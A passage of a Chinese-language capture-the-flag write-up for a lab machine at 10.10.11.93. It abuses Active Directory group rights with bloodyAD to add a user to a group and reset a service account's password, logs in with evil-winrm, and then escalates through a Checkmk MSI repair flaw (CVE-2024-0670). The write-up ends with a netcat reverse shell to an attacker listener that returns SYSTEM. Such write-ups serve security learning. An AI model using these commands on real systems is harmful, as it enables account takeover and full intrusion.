这里的普通用户是不应该拥有主动加入某个组的权限的，但是这里可以主动加入组，而到了这个组之后还可以对moniioring\_svc 强制修改密码，forcechangepassword，如果成功修改密码之后，就可以拿到权限，而远程管理组的成员正常是需要授权的，这里却可以利用 moniioring\_svc 的组成员身份可以直接通过远程管理去连接到服务器，所以接下来就可以去提升权限了。

首先进行 AddSelf ，这里需要使用工具bloodyAD

```
bloodyAD --host 10.10.11.93 -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' add groupMember IT_SUPPORT web_svc 
[+] web_svc added to IT_SUPPORT
```

这里成功添加，然后进行 forcechangepassword

```
bloodyAD --host 10.10.11.93 -d nanocorp.htb -u web_svc -p dksehdgh712!@# set Password MONITORING_SVC NewPass123!
[+] Password changed successfully!
```

这里也成功重置了密码，可以直接去进行连接了

```
evil-winrm -i 10.10.11.93 -u "MONITORING_SVC" -p "NewPass123!" -S
```

这样就成功登陆了  
然后开始提权，在收集信息之后，发现有一个CVE-2024-0670这是由于代理程序错误处理中的竞争条件和逻辑缺陷导致的本地权限提升  
首先在注册表中找到了

```
$msi = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-...\Products\...\InstallProperties' | Where-Object { $_.DisplayName -like Checkmk* } | Select-Object -First 1).LocalPackage 结果返回了C:\Windows\Installer\1e6f2.msi.
```

启动修复的命令是`msiexec.exe /fa $msi /qn`  
我首先尝试以当前用户身份运行此触发器，但是失败`monitoring_svc`。我启用了详细的 MSI 日志记录，发现日志以错误结束。这意味着无法访问 Windows Installer 服务。这是一个客户端级别的“访问被拒绝”错误。我的用户权限不足，无法启动修复。`/l*vx``1601``ERROR_INSTALL_SERVICE_FAILURE``monitoring_svc`  
所以，用户`web_svc`可能拥有不同的权限

```
evil-winrm -i 10.10.11.93 -u web_svc -p 'dksehdgh712!@#' -S
```

`web_svc`我从shell 中`msiexec`再次运行了触发器，并记录了输出。`msiexec.exe /fa C:\Windows\Installer\1e6f2.msi /qn /l*vx`  
所以最后，从web-svc 上传了一个nc.exe ，创建`exploit.ps1`  
在我的攻击者机器上

```
rlwrap nc -lnvp 8888
```

然后从`web_svc` 中执行了该脚本。`PS C:\Temp> .\exploit.ps1`  
然后触发。我的监听器收到了连接。

```
listening on [any] 8888 ...
connect to [MY_ATTACKER_IP] from (UNKNOWN) [10.10.11.93] 49984
Microsoft Windows [Version 10.0.20348.320]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
